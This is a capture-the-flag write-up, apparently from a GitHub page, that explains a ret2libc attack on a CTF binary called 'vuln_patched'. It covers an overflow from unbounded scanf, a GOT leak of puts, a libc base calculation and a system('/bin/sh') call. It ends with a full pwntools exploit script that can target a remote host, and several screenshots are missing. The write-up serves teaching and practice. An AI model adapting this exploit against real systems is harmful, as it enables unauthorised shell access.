








# **Here's a LIBC: `vuln_patched`**

## **Challenge Overview**

* **Binary:** `vuln_patched`
* **Libc:** Provided (`libc.so.6`)
* **Goal:** Exploit the binary to spawn a shell and retrieve a flag.
* **Security Protections:**

  * NX: Enabled (no shellcode execution on stack)
  * PIE: Disabled (`0x400000` base)
  * Stack Canary: Not present
  * RELRO: Partial

This indicates the binary is **ROP-friendly**, with a standard 64-bit calling convention.

---

## **Step 1: Setting Up the Exploit Environment**

Since we were provided with **both the binary and libc**, we can test locally using the provided libc:




this is due to the Wrong libc version




so we will use [pwninit](https://github.com/io12/pwninit.git) tool


```bash
pwninit --libc libc.so.6 --no-template --bin vuln
```

This prepares a local exploit environment, mapping the correct libc for ROP-based exploitation.

after this you will have an patched binary




---

## **Step 2: Analyzing the Binary**


since we are not given with source code so we will use tools like `r2` or `Ghidra`:

```c
int main() {
    char buffer[40];
    // ...
    scanf("%[^\n]", buffer);
    // ...
    do_stuff(buffer);
}
```

**Observations:**

1. The binary reads user input using `scanf("%[^\n]")` into a **stack buffer** (`char buffer[40]`).
2. The `do_stuff()` function processes input and calls `puts()` after some conversion.
3. The **stack buffer** is limited (40 bytes), but `scanf` does not limit input length — so a **buffer overflow** is possible.
4. NX is enabled → we cannot execute shellcode directly.
5. Partial RELRO, no canary → **RIP overwrite via ROP** is feasible.

**Conclusion:** This is a **stack-based ROP challenge**.

---

## **Step 3: Determining the Overflow Offset**

We need to find how many bytes to reach **RIP** (the return address):

i will use `ragg2` with `r2` 



now lets find the address of main on the stack


we have to find this:





now lets enter the payload given by `ragg2` and examin the stack



* This is the number of bytes to overwrite saved RIP.

---

## **Step 4: Crafting the First ROP Payload (Leak libc address)**

**Goal:** Leak the address of `puts` from the GOT to calculate the libc base.

**ROP chain:**

1. `pop rdi; ret` → Set up argument for `puts`.
2. `puts@GOT` → Print actual libc address of `puts`.
3. `puts@PLT` → Call puts function.
4. `main` → Return to main for a second stage.

**Python Payload:**

```python
payload  = b"A"*offset
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(elf.got.puts)
payload += p64(elf.plt.puts)
payload += p64(elf.symbols.main)
```

**Send payload and receive leak:**

```python
p.sendlineafter(b'WeLcOmE To mY EcHo sErVeR!\n', payload)
puts_addr = u64(p.recv(8))
```

* `u64()` converts the leaked 8-byte address to integer.
* The leak allows us to calculate **libc base**:

```python
glibc.address = puts_addr - glibc.symbols.puts
```

---

## **Step 5: Crafting the Final ROP Payload (Spawn Shell)**

Now we know **libc base**, we can call `system("/bin/sh")`:

**ROP chain:**

1. `pop rdi; ret` → Set up RDI with `/bin/sh` string.
2. `/bin/sh` → Found in libc.
3. Optional `ret` → Align stack to 16 bytes (prevents crashes).
4. `system` → Call system("/bin/sh").

**Payload:**

```python
payload  = b"A"*offset
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(next(glibc.search(b'/bin/sh')))
payload += p64(rop.find_gadget(['ret'])[0])   # Stack alignment
payload += p64(glibc.symbols.system)
```

* Stack alignment is needed because **x86\_64 ABI requires 16-byte alignment at function calls**.
* Omitting this can sometimes crash `system()`.

**Send final payload:**

```python
p.sendlineafter(b'WeLcOmE To mY EcHo sErVeR!\n', payload)
p.interactive()
```

* This drops you into a **interactive shell**.

---

## **Step 6: Notes on Loader / Libc**

* The challenge provided `libc.so.6`.
* When testing locally, we **use it directly in pwntools**:

```python
glibc = ELF('libc.so.6', checksec=False)
```

* On remote server, we rely on the **given libc** for correct addresses.

* Using `pwninit` sets up a proper exploitation environment with the correct libc mapped.

---

### **Step 8: Full Exploit Script**

```python
#!/usr/bin/env python3
from pwn import *
import sys

context.binary = elf = ELF('vuln_patched')
glibc = ELF('libc.so.6', checksec=False)
rop = ROP(elf)

def get_process():
    if len(sys.argv) == 1:
        return elf.process()
    host, port = sys.argv[1], int(sys.argv[2])
    return remote(host, port)

def main():
    p = get_process()
    offset = 136
    junk = b'A' * offset

    # Stage 1: Leak puts
    payload  = junk
    payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
    payload += p64(elf.got.puts)
    payload += p64(elf.plt.puts)
    payload += p64(elf.symbols.main)

    p.sendlineafter(b'WeLcOmE To mY EcHo sErVeR!\n', payload)
    puts_addr = u64(p.recv(8))
    log.info(f'Leaked puts() address: {hex(puts_addr)}')

    glibc.address = puts_addr - glibc.symbols.puts
    log.info(f'Glibc base address: {hex(glibc.address)}')

    # Stage 2: Spawn shell
    payload  = junk
    payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
    payload += p64(next(glibc.search(b'/bin/sh')))
    payload += p64(rop.find_gadget(['ret'])[0])  # Stack alignment
    payload += p64(glibc.symbols.system)

    p.sendlineafter(b'WeLcOmE To mY EcHo sErVeR!\n', payload)
    p.interactive()

if __name__ == '__main__':
    main()
```




